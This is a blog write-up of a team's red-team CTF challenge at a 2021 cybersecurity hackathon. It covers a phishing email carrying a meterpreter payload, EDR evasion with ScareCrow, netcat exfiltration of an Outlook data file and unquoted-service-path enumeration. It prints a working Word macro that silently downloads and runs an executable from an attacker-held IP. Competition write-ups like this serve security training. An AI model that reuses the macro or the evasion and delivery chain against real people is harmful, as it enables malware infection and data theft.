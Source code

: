 ```yaml
---
title: "ABC CTF Challenge"
date: 2021-08-28T03:09:07-03:00
draft: false
cover: "images/abcctf/2021_cybersecurity.jpeg"
blogs: ["CTF_Challenges"]
---
```


## **ABC CyberHackathon RedTeam CTF**

#### [CY3ER-R4T](https://cyberrat.medium.com/)
## INTRODUCTION

My team RedTeamNG recently came first in the The American Business Council Cybersecurity Hackathon 2021 organized by ctf.ng and major sponsors bothering from American Business Council,Microsoft,AWS, Cisco, Comercio, HP, IBM and others

This write up would be focused only on the finals and specifically the RedTeam challenges running through the methodology used to tackling it,  
other post by my team mate [Muzec](https://muzec0318.github.io/posts/abcctf.html) would be covering the Web Challenges.

### SCENARIO

The scenario we are presented with by the organizers is that of an Fat Fingered individual that unconsciously opens every email and attachment he gets in he’s corporate email : [obiora\_nurudeen@ctf.ng](http://mailto:obiora_nurudeen@ctf.ng)

{{< figure src="/images/abcctf/scenario.png">}}

Armed with just he’s name Nurudeen Obiora, the email above and the knowledge of the targets low awareness in basic email security,  
we thought of emulating a strategy we recently used at the DEFCON 29 RedTeam CTF by sending the target an email with the reverse shell payload attached.

Now here is where the problem begins, as with almost every field: There is a race, race between Good and Bad, Positive and Negative  
our intentions are of no good so every mechanism of security is against us which is a “replica” of a real life situation

**1st attempt:** _Sending an msfvenom payload + gmail_  
Using msfvenom we created a windows reverse shell payload


{{< figure src="/images/abcctf/msfvenom.gif">}}

Attempting to send it to the target using swaks  
swaks : SWiss Army Knife Smtp

we are immediately flagged as malicious by Gmails Egress Malware Scanner

{{< figure src="/images/abcctf/egress-gmail.gif">}}

**2nd attempts:** We resulted into trying several empire powershell payload and bypasses, Persian Hydra Xor encryption with Custom keys, EgeBalci/sgn Shikata\_ga\_nai encoder, All to no avail

{{< figure src="/images/abcctf/head-boom.gif">}}

**Final attempt:** After numerous swift and failed attempt, we remembered Matthew Eidelberg talk at SourceZero Con : Remaining Invisible in the Age of EDR, a talk which showcase the ability to bypass defenses with a term called DLL unhooking using the ScareCrow Binary

In short, we can generate some raw shellcode from the software of our choice (Cobalt Strike, Metasploit, PoshC2, etc) and pass it to the Scarecrow to get a loader back that will implement some common EDR evasion techniques.

we decide to create a create a `windows/x64/meterpreter\reverse\tcp` shellcode using msfvenom \[msfvenom shellcode is a pain, its crappy and might be unstable at times\]
{{< figure src="/images/abcctf/msfvenom.gif">}}

then pass the raw shellcode to the scarecrow binary along with a random domain name for a cloned signed certificate

{{< figure src="/images/abcctf/scarecrow.png">}}

we then created a meterpreter listener using the connection variable of the shellcode as options: “would have preferred Cobalt-strike but its for the BigBoys like InfosecShinobi 🙂”

## DELIVERY

The output of ScareCrow is an obfuscated .exe payload, being at the third stage of the “cyber attack cycle” which is delivery  
we somehow need to get the payload the victim machine and “run” it

We decided to use the old aged Microsoft Word Document with macro in the .docm extension,  
the function of the macro was to run a powershell one-liner that downloads the payload \[Powerpnt.exe\] binary hosted on our machine, store it in C:\\windows\\temp\\ and then run it

> Sub Document\_Open()  
> MyMacro  
> End Sub
> 
> Sub AutoOpen()  
> MyMacro  
> End Sub
> 
> Sub MyMacro()  
> Dim str As String  
> str = “powershell iwr -uri [http://x.x.x.x/](http://20.87.43.15/OutLook.exe)Powerpnt.exe -o c:\\windows\\temp\\Powerpnt.exe; c:\\windows\\temp\\Powerpnt.exe”  
> GetObject**(**“winmgmts:”**)**.Get**(**“Win32\_Process”**)**.Create str, Null, Null, pid  
> Shell str, vbHide  
> End Sub


{{< figure src="/images/abcctf/macro.png">}}

## WEAPONIZATION

Weaponized the final email and sent the .docm to the target by gmail

{{< figure src="/images/abcctf/weapon-email.png">}} 

Tick! tock! Tick! tock!  
Itchy finger Nurudeen opens the malicious document with the payload sending us a meterpreter session on our VPS \[wish it was cobalt strike, somebody buy us cobalt strike already!!\]

{{< figure src="/images/abcctf/meterpreter.png">}} 

Now the hunt for flags begin, which literally means _ENUMERATION_  
checking to see what the internal IP looks like, we find the user IP address we we already solved the unintended way by checking the header of the response email`\[FLAG8\]`

{{< figure src="/images/abcctf/header.png">}}

checking the current user directory and finding `unattend.xml` that contains `\[FLAG4\]`

{{< figure src="/images/abcctf/ctf_xml.jpeg">}}

curious about what local users are on the machine just to get an idea of what movement of privilege escalation was necessary, lateral or horizontal  
we find two more flags `\[FLAG3\]` `\[FLAG5\]`


{{< figure src="/images/abcctf/net_user.jpeg">}}

One of the challenges goes by the name “Registry Never Lies” which immediately prompted us to query the registry table to find \[FLAG2\]

{{< figure src="/images/abcctf/regq.jpeg">}}


The what seems to be easy challenge turned to a battle “Outlook Storage 150points”, as most application data are stored in %APPDATA% we dived into it to get our hands on the loot after a quick research we figure the ost file is the microsoft outlook data bucket trying to transfer the file using the netcat binary, it failed cause the file was currently locked with the outlook process.

We proceeded to killing the process and sending the OST to our local machine with netcat

{{< figure src="/images/abcctf/task_kill.jpeg">}}

Converting the ost with the steller converter we find `\[FLAG1\]`

{{< figure src="/images/abcctf/steller.png">}}

After running out of flags to find, it was time for horizontal privilege escalation

## LATERAL PRIVILEGE ESCALATION  
**Machine Misconfigured with an Unquoted Service Path**

Sometimes it is possible to escalate privileges by abusing mis-configured services. Specifically, this is possible if path to the service binary is not wrapped in quotes and there are spaces in the path..  
If you are using a long file name that contains a space, use quoted strings to indicate where the file name ends and the arguments begin; otherwise, the file name is ambiguous.

For example, consider the string “c:\\program files\\safe software\\enjoy.exe”. This string can be interpreted in a number of ways.  
The system tries to interpret the possibilities in the following order:

**c:\\program.exe**  
**c:\\program files\\safe.exe**  
**c:\\program files\\safe software\\enjoy.exe**

if any of the directory along the path is writable and said service is running with system privileges then this misconfiguration is easily exploitable

we can enumerate and find Unquoted Service Path by using the wmic command `wmic service get name,pathname`

we can aswell check to see if the service is running with system privileges still by using wmic `wmic service get pathname,startname`


{{< figure src="/images/abcctf/servicepath.png">}}

> **END OF PART ONE**
>#### The difference between a noob and a hacker is that a hacker has failed more than a noob has ever tried



